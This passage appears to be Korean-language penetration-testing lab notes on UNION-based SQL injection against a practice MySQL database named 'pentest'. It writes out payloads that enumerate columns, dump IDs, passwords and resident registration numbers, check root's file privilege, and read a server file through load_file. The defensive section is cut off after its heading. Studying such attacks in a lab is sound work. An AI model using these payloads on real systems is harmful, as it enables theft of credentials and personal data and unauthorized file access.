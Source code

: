     
    *컬럼 목록화
    
    - 테이블 : customer_info
        
        ‘ and 1=2 union select null,column_name,null,null,null,null,null,null,null from information_schema.columns where table_schema=’pentest’ and table_name=’customer_info’#
        
        ![[90. Settings/92. Attachments/Untitled 3 3.png|Untitled 3 3.png]]
        
    
      
    
    - 테이블 : members
        
        ‘ and 1=2 union select null,column_name,null,null,null,null,null,null,null from information_schema.columns where table_schema=’pentest’ and table_name=’members’#
        
        ![[90. Settings/92. Attachments/Untitled 4 3.png|Untitled 4 3.png]]
        
          
        
    
    3) 데이터 목록화
    
    - 테이블 : customer_info
        
        ‘ and 1=2 union select id,password,null,null,jumin,null,null,null,null from customer_info#
        
        ![[90. Settings/92. Attachments/Untitled 5 3.png|Untitled 5 3.png]]
        
          
        
    - 테이블 : members
        
        ‘ and 1=2 union select id,password,null,null,name,null,null,null,null from members#
        
        ![[90. Settings/92. Attachments/Untitled 6 3.png|Untitled 6 3.png]]
        
          
        
    

## 로컬 파일 무단 열람

6) 권한 확인 : mysql.user 테이블에서 file_priv를 통해 파일 열람 권한이 있는지 확인

select file_priv from mysql.user where user=’root’

→유니온 공격을 통해 확인

‘ and 1=2 union select null, file_priv,null,null,null,null,null,null,null from mysql.user where user=’root’#

7) 파일 열람

‘ and 1=2 union select null, load_file(’/information/secret_info.txt’),null,null,null,null,null,null,null#

  

대응방안

8) SQL Injection 대한 방어
